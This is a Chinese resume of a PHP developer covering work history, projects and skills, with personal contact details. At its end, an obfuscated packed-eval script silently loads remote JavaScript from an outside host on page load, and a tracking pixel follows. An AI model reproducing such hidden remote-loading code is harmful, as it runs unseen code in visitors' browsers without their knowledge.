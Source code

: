 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：3年+
 - 最高学历：高中
 - 期望职位：PHP开发工程师
 - 期望城市：上海 

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[Alone@an56.net](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；

### [烈火APP相关API接口](#)
 - 用户付费充值相关接口：
     - 用户钻石、魅力值等账户数据内部接口；
     - 支付宝、微信充值及提现；
     - 福袋、宝箱（类似抢红包）相关接口；
     - 一对一礼物、直播礼物接口；
 - 视频直播相关接口：
     - 直播喇叭、热门票等道具相关接口；
     - 直播任务奖励相关接口；
     - 观众贡献榜单排行等接口；
 - 各类专题活动相关接口及H5页面；
 - APP直传OSS相关接口；


## 上海幺令巴网络科技有限公司 （2015年5月 ~ 2015年7月）

### [快讯通手机APP数据接口](http://naotu.baidu.com/viewshare.html?shareId=awbv4fveqha8)
- 负责APP数据接口的开发；
- 负责APP内嵌H5网页的开发以及控制器方法的重写；

### [站点及SEO管理系统](#)
- 该系统的主要目的是为了管理公司的客户网站以及域名，此外还包括服务器、注册商、SEO优化的管理。
- SEO优化又包括SEO任务、关键词、外链文章、资源站等管理，以及对外链专员发布外链记录的管理。
- 图片演示：http://pan.baidu.com/s/1jGy7HbC


## 自由职业 （2014年8月 ~ 2015年3月）

### [WinIIS广告推广平台](http://www.an56.net/adsense/)
 - 演示账户：adsense 密码：123456
 - 类似于“淘宝客”，按成交计费的推广模式(CPS)

### [微信公众号管理平台](http://app.ah.cn/weixin/admin/?m=Msg)
 - 使用ThinkPHP框架开发
 - 根据关键词、正则表达式判断请求，回复相应内容
 - 自定义拓展接口，实现天气、快递等查询
 - [测试自动回复](http://app.ah.cn/weixin/test/)


## 合肥一浪网络科技有限公司 （2013年6月 ~ 2014年7月）

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [天长市市场监督管理局网站](http://www.tcscjg.gov.cn/)
- [天长市万寿镇政府网站](http://www.wanshou.gov.cn/?/wza)，[无障碍功能](http://www.wanshou.gov.cn/view.asp?/wza/=/&id=1111)
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设，ASP程序开发，模板制作。


---

# 开源项目和作品

## 开源项目

 - [parse_urls](http://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](http://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp+Access

## 业余作品

 - [自助友情链接交换平台](http://link.an56.org/) : 后端使用ThinkPHP 3.2.3开发；前端使用Bootstrap框架。
 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [aGoogle](http://app.an56.org/aGoogle/) : 谷歌搜索，RequireJS + Angular + Bootstrap
 - [CKEditor表情插件](http://app.an56.org/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功能
 - [卫星电视接收参数](http://app.an56.org/stv/)
 - [其他作品...](http://dwz.cn/alone-case)


---

# 技能清单
- Web开发：PHP / Golang / JavaScript
- Web框架：ThinkPHP / Lumen
- 前端框架：jQuery / Bootstrap / Vue.js
- 开发工具：Sublime Text / PHPStorm / Git / Firebug
- 数据库相关：MySQL / Redis / SqLite / MSSQL
- 云和开放平台：SAE / 支付宝 / QQ互联 / 微信公众平台


---

# 自我描述
- 熟练使用PHP语言开发网站应用，熟悉ThinkPHP框架；
- 熟悉Redis各种数据类型的读写操作及Linux常用命令；
- 熟悉MySQL数据库优化以及Git，SVN等协作工具；
- 精通Web前端，熟练使用jQuery、Bootstrap、Vue.js；
- 热爱并熟悉正则表达式、Markdown，喜欢接触新的技术；
- 了解各大开放平台API接口，开发过微信公众平台接口。

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。

![](http://img.users.51.la/16854071.asp?a.jpg)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>